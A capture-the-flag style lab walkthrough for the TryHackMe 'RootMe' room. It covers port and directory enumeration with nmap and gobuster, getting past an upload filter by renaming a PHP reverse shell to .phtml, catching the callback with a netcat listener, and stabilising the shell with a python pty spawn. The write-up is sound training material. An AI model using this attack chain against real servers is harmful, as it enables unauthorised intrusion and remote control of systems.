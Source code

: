 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to get a reverse shell on a vulnerable server through a file upload.

**Lab Purpose:**

A shell account is a user account on a remote server. This user account will usually give the user access to a shell via a command-line interface protocol such as telnet or SSH. Getting a shell on a server is usually the first main goal of an attacker when they are looking to hack into a server. From this position, they can navigate around your server and escalate their privileges to take over the server entirely.

**Lab Tool:**

Kali Linux

**Lab Topology:**

You can use a Windows machine or Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

We will be conducting this attack against a TryHackMe server. This server is designed to be vulnerable so that this technique can be practiced. We can access the server with a free subscription.

First, open a terminal screen in your Kali machine. Make sure you have OpenVPN installed:

sudo apt update  
sudo upgrade openvpn

![tryhackme](attachements/tryhackme.png)

Login to tryhackme.com site with your own credentials. Create a free account if needed.

After successful login, you will be redirected to the page displaying OpenVPN client information.

![openvpn](attachements/openvpn-4.png)

By following the steps shown in the figure above, go up to step 3 and download the OpenVPN client config (clientname.ovpn) file to the your Kali machine. Go to the location where you downloaded the file and run this command in terminal:

sudo openvpn clientname.ovpn

Upon successful connection, follow steps 4 and 5 as shown in the above figure. The IP address here is your address on the client side, and we will use this information later. Write it down.

Open another browser tab in Kali then navigate to: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

On this page, scroll down until you see the “Join Room” button. Click it. On the next page, click the

![reverse shell](attachements/reverse_shell-3.png)

“Start Machine” button under Task 1 to start the Lab.

By default, you have 1 hour to finish all tasks in that lab. However, if necessary, you can request additional time by clicking the “Add 1 hour” button at the top of the page.

![reverse shell](attachements/reverse_shell.png)

The IP address shown in the picture above belongs to our targeted victim machine. Write this down too, we will reference it often.

### Task 2:

After starting the lab, let’s open a new browser tab in Kali and write the IP address of the target machine here; which is 10.10.54.248 in this instance. The goal of this lab is to get a shell on this machine.

![rootme](attachements/rootme.png)

The first step to any hack like this is to discover which ports are open using nmap. To do this, type the following into a terminal:

nmap -sV 10.10.54.248

![kali](attachements/kali-4.png)

We can see that there are two ports open, 22 and 80. There is nothing particularly interesting here so we will move on to the next step of enumeration

### Task 3:

The next step is to use the gobuster tool to enumerate the webserver for any interesting/hidden directories and URLs. To do this, open a terminal as root user and type the following:

gobuster dir -u 10.10.54.248 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

This may take a while, but will uncover any interesting or unusual URLs we may be able to take advantage of.

![gobuster](attachements/gobuster-5.png)

After running gobuster for a while, we discover a number of URLs. Interesting ones are “/panel” and “/uploads”. If we visit “http://10.10.54.248/panel” URL, we will find that there is a file upload form. This will be our way into the server!

### Task 4:

Let’s try to send an empty “test.php” file to the upload page we just discovered on the target server;

![reverse shell](attachements/reverse_shell-1.png)

As can be seen, “test.php” file was not accepted.

![reverse shell](attachements/reverse_shell-2.png)

This time, let’s send a file named “test.txt”; we were able to send this file!

### Task 5:

The next step is to get a reverse shell by uploading a malicious file through this file upload form. A file written for this purpose already exists inside the Kali machine at this location:

/usr/share/webshells/php/php-reverse-shell.php

Place a copy into our home directory:

cp -v /usr/share/webshells/php/php-reverse-shell.php ~/phpshell.php

![kali linux](attachements/kali_linux-3.png)

We open the file with an editor to update some areas in there. Here, we will write the IP address we saw earlier on the OpenVPN connection page (see Task 1), so that the phpshell.php knows which machine to call back to. There’s no need to change port number.

We know that we cannot upload files with “.php” extensions to the target server, but what about files with “.phtml” extension? “.phtml” essentially functions the same as “.php”. We will make the extension of our file “.phtml” and try to upload it to the target server:

mv -v phpshell.php phpshell.phtml

### Task 6:

Try to upload “phpshell.phtml” file to target and check if we succeed.

![phpshell](attachements/phpshell.png)

Done! We uploaded our evil PHP reverse shell code to the target server. Now, open a new terminal in Kali machine and type the following:

nc -lnvp 1234

This will tell netcat to listen for a connection on this port. Let’s go to the “/uploads” page and click the “phpshell.phtml” file to make it run. When the code runs, it will establish a TCP connection to port 1234 of our Kali machine. Remember, this port is already being listened to by netcat.

![netcat](attachements/netcat.png)

### Task 7:

Return to the terminal where netcat is running. You will see that you now have a shell on the server. However, it is only a temporary one and the shell will collapse if we do not make it stable. To do this, once you have a shell, type the following:

python -c ‘import pty;pty.spawn(“/bin/bash”)’

![netcat](attachements/netcat-1.png)

This will create a stable bash shell which we can use to navigate around the server. Now, we have started a reverse terminal from the target machine towards ourselves.

### Task 8:

One of the tryHackMe challenges is to find the “user.txt” file on the target server and read the data in it. Run the following commands on the terminal screen in the target server:

find / -type f -name user.txt 2>/dev/null

cat /var/www/user.txt

We were able to read this file because the user who ran PHP on the target server is also the owner of the user.txt file.

### Latest Post

-
